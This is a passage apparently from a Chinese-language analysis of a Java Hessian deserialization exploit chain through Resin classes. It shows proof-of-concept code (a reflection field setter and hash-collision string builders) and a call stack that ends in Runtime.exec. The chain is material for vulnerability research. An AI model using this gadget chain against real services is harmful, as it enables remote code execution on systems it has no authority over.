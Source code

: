 ```bash
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

    }

    public static void setFiled(String classname, Object o, String fieldname, Object value) throws Exception {
        Class<?> aClass = Class.forName(classname);
        Field field = aClass.getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }

    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            // String with hash of Integer.MIN_VALUE, 0x80000000
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            // Find target without sign bit set
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }
    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;

        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }
}
```

#### 函数调用栈

```bash
exec:347, Runtime (java.lang)
<init>:6, test
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
getContext:439, NamingManager (javax.naming.spi)
getTargetContext:55, ContinuationContext (javax.naming.spi)
composeName:180, ContinuationContext (javax.naming.spi)
toString:353, QName (com.caucho.naming)
equals:392, XString (com.sun.org.apache.xpath.internal.objects)
putVal:634, HashMap (java.util)
```